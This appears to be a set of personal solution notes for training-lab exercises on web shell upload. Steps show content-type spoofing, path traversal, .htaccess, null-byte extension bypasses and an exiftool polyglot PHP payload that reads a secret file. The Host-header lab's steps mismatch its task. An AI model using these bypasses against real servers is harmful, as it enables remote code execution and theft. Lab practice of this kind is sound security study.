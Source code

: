 ```
Lab: Remote code execution via web shell upload

APPRENTICE

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. cat /home/carlos/secret

---

```
Lab: Host header authentication bypass

APPRENTICE

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete the user carlos. 
```

1. Upload webshell.php
2. Change content-type to image/jpeg
3. cat /home/carlos/secret

---

```
Lab: Web shell upload via path traversal

PRACTITIONER

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Look that there are no restriction on the upload file functionnality but the php is not interpreted on the location where the file is uploaded
3. Change the filename to perform path traversal in order to uplaod the file where the php can be interpreted
4. filename="..%2Fwebshell.php"
5. Go to files/webshell.php
6. enjoy your RCE
7. cat /home/carlos/secret


---

```
Lab: Web shell upload via extension blacklist bypass

PRACTITIONER

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Bypass restriciton with .php5
3. Add this extension via .htaccess as executable :
```
filename=".htaccess"
Content-Type : text/plain
AddType application/x-httpd-php .php5
```
4. Reload your webshell and now it's interpreted
5. cat /home/carlos/secret

---

```
Lab: Web shell upload via obfuscated file extension

PRACTITIONER
LAB Not solved

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. See that only JPEG and PNG are allowed
3. Bypass extension verification with : .php%00.png


---

```
Lab: Remote code execution via polyglot web shell upload

PRACTITIONER

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Try to bypass mime type check with :

```bash
exiftool -Comment="<?php echo 'start ' .  system('cat /home/carlos/secret') . ' END'; ?>" dices.png -o polyglot4.php
```

3. Upload polyglot4.php
4. Enjoy RCE

---
